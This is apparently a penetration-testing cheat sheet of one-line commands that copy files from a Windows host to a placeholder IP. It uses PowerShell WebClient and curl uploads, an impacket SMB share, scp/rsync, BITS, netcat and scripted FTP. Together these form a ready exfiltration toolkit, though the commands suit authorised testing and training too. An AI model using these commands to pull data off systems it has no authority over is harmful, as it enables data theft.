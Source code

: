USING POWERSHELL -
------------------------------------------------------------------------------------------------------------------

#### 

**Web Content Upload**
    
    $webClient.UploadFile('http://{REMOTE-IP}/demo.txt', 'PUT', 'C:\temp\demo.txt')

**Web Content Upload**
    
    powershell.exe -c "curl.exe -T C:\temp\demo.txt http://{REMOTE-IP}/demo.txt"

**Web Content Upload**
    
    Start-Process -FilePath "curl.exe" -ArgumentList "-T 'C:\temp\demo.txt' http://{REMOTE-IP}/demo.txt" -NoNewWindow -Wait
------------------------------------------------------------------------------------------------------------------

</br>

USING CMD - 
------------------------------------------------------------------------------------------------------------------

**Using PUT Method**
    
    powershell.exe -c "$webClient = New-Object System.Net.WebClient; $webClient.UploadFile('http://{REMOTE-IP}/demo.txt', 'PUT', 'C:\temp\demo.txt')"   

**Using POST Method**

    powershell.exe -c "$webClient = New-Object System.Net.WebClient; $webClient.UploadFile('http://{REMOTE-IP}/demo.txt','C:\temp\demo.txt')"
------------------------------------------------------------------------------------------------------------------

</br>

USING SMB - 
------------------------------------------------------------------------------------------------------------------

**SMB SERVER -**

**Start normal SMB Server**
    
    impacket-smbserver share .

**If version error**
    
    impacket-smbserver -smb2support share .

**Use authenticated servers if file transfer is long**

    impacket-smbserver share -username user -password 123 . -smb2support


**SMB CLIENT -**

**To create authenticated session**

    net use \\{LOCAL-IP} /u:"user" "123"

**Web Content Upload**
    
    copy demo.txt \\{LOCAL-IP}\share\  
------------------------------------------------------------------------------------------------------------------

</br>

USING SSH - 
------------------------------------------------------------------------------------------------------------------

**SCP-**

**Copy a file from Remote PC to Local PC**
    
    scp user@{REMOTE-IP}:/users/public/demo.txt /tmp/

**Copy a directory from Remote PC to Local PC**

    scp -r user@{REMOTE-IP}:/users/public/demo/ /tmp/
    
**Copy a directory from Remote to Local with RSA key**

    scp -i id_rsa -r user@{REMOTE-IP}:/users/public/demo/ /tmp/
    
**RSYNC-**

**Copy a file from Remote PC to Local PC**
    
    rsync -av user@{REMOTE-IP}:/users/public/demo.txt /tmp/

**Copy a directory from Remote PC to Local PC**

    rsync -r user@{REMOTE-IP}:/users/public/demo/ /tmp/
    
**Copy a directory from Remote to Local with RSA key**

    rsync -av --port 22 -e 'ssh -i id_rsa' -r user@{REMOTE-IP}:/users/public/demo/ /tmp/

------------------------------------------------------------------------------------------------------------------

</br>

USING WinRM - 
------------------------------------------------------------------------------------------------------------------

**Web Content Upload**
    
    download demo.txt
------------------------------------------------------------------------------------------------------------------

</br>

USING BITSADMIN - 
------------------------------------------------------------------------------------------------------------------

**Upload a single file from Remote PC to Local PC**
    
    powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source '\users\public\demo.txt' -Destination 'http://{LOCAL-IP}/demo.txt' -TransferType Upload"

**Upload multiple files from Remote PC to Local PC**
    
    powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source 'c:\users\public\demo1.txt', 'c:\users\public\demo2.txt' -Destination 'http://{LOCAL-IP}/demo1.txt', 'http://{LOCAL-IP}/demo2.txt' -TransferType Upload"

**Upload a single file to a Windows directory to another directory:**
    
    powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source '\users\public\demo.txt' -Destination '\users\public\' -TransferType Upload"
------------------------------------------------------------------------------------------------------------------

</br>

USING NC / NETCAT - 
------------------------------------------------------------------------------------------------------------------

**Run NC Server on Local PC**
    
    nc.exe -nlvp 443 > demo.txt

**Run NC Client on Remote PC**
    
    nc -v {LOCAL-IP} 443 < demo.txt
                OR
    type demo.txt | nc.exe -v {LOCAL-IP} 443
------------------------------------------------------------------------------------------------------------------

</br>

USING FTP - 
------------------------------------------------------------------------------------------------------------------

**File Upload**

Replace "demo.txt" with desired file name
    
    echo open {LOCAL-IP} 21 > file.txt
    echo bin>> file.txt
    echo put demo.txt>> file.txt
    echo bye>> file.txt

    ftp -A -v -n -s:file.txt

**One Liner**

    echo open {LOCAL-IP} 21 > file.txt && echo bin>> file.txt && echo put demo.txt>> file.txt && echo bye>> file.txt && ftp -A -v -n -s:file.txt

**Mannualy -**

    ftp
    open {LOCAL-IP} 2121
    put demo.txt

**FTP Authenticated**

Replace "demo.txt" with desired file name
    
    echo open {LOCAL-IP} 21 > file.txt
    echo user test>> file.txt
    echo test>> file.txt
    echo bin>> file.txt
    echo put demo.txt>> file.txt
    echo bye>> file.txt

    ftp -v -n -s:file.txt

**Mannualy -**

    ftp
    open {LOCAL-IP} 2121
    put demo.txt
------------------------------------------------------------------------------------------------------------------
